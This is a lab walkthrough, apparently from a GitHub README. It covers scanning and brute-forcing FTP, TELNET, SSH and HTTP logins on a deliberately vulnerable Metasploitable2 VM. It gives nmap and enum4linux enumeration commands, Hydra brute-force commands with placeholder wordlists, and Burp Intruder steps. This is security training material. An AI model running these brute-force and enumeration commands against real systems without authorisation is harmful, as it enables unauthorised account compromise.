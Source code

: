 # 🛡️ Network Protocol Vulnerability Lab - Walkthrough

## 📌 Objective
The purpose of this lab is to simulate brute force attacks against common network services (**FTP**, **TELNET**, **SSH**, and **HTTP**), analyze the security of these protocols, capture and inspect network traffic, and propose security mitigations.

---

## 🖥️ Lab Environment Setup
- **Attacker VM:** Kali Linux 2024.4
- **Target VM:** Vulnerable Linux VM (Metasploitable2 / custom)
- **Tools Used:** Hydra, Burp Suite, Wireshark,

---

# 🧾 Task 1: Enumerate the Target

## 🎯 Goal
Identify valid usernames on the target VM.

## 1.1 Nmap scan
Performed an initial scan to discover open services.

---

## 🛠️ Commands Used
```bash
nmap -p 21,23,22,80 <target-ip> 
```

![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)

---

## 1.2 Enum4linux Enumeration
Since ports (21,23,22,80) are open, used enum4linux to gather more usernames.

---

## 🛠️ Commands Used
```bash
enum4linux -a <target-ip> 
```
![image](https://github.com/user-attachments/assets/d3aa5613-9725-45dc-9d5c-d2f50fb3ad5e)
![image](https://github.com/user-attachments/assets/2fd2d4d5-60fe-412f-b145-e07f3199bfc9)

---

# 🔐 Task 2: Brute Force Attacks

## 2.1 FTP / TELNET / SSH
Use Hydra to perform brute force attacks against the services FTP, TELNET, and SSH.

---

## 🛠️ Example Hydra Commands

```bash
# Brute force FTP login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> ftp://<target-ip>

# Brute force TELNET login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> telnet://<target-ip>

# Brute force SSH login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> ssh://<target-ip>
```
![image](https://github.com/user-attachments/assets/3f148cad-802e-4a38-aa50-b542a588f5bd)

---

## 2.2 HTTP Login Page Attack (Burp Suite)
Steps:
- **Captured login request in Burp Proxy.**
- **Sent to Intruder.**
- **Configured payload positions for username and password.**
- **Loaded wordlists and launched attack.**
